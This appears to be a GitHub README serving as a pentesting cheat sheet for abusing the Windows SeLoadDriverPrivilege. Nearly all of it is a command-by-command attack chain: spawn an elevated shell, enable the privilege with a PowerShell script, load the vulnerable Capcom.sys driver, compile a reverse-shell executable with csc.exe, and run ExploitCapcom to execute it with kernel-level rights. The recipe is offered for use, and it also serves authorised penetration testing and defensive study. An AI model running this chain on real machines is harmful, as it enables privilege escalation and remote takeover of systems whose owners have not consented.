 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
..* Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
..* Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile EoPLoadDriver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Exploit vulnerable driver
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

- [https://github.com/PaoJiao/elevate](https://github.com/PaoJiao/elevate)
- [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver)
- [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
- [https://github.com/FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)




